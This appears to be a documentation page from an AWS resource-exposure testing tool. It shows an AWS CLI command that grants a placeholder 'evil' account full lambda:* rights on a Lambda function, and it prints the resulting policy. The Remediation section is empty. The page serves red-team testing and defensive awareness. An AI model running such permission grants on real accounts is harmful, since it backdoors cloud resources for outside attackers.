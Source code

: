 # Lambda Functions

Allows invoking the Lambda Function.

## Steps to Reproduce

* Using `endgame`:

* Using AWS CLI:

```bash
export EVIL_PRINCIPAL_ACCOUNT=999988887777
aws lambda add-permission \
    --function-name test-resource-exposure \
    --action lambda:* \
    --statement-id RbpExposer \
    --principal $EVIL_PRINCIPAL_ACCOUNT
```

## Example: Exposed Resource

```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Sid": "RbpExposer",
      "Effect": "Allow",
      "Principal": {
        "AWS": "999988887777"
      },
      "Action": [
        "lambda:*"
      ],
      "Resource": "arn:aws:lambda:us-east-1:111122223333:test-resource-exposure"
    }
  ]
}
```

## Remediation

## References

* [add-permission](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/lambda/add-permission.html)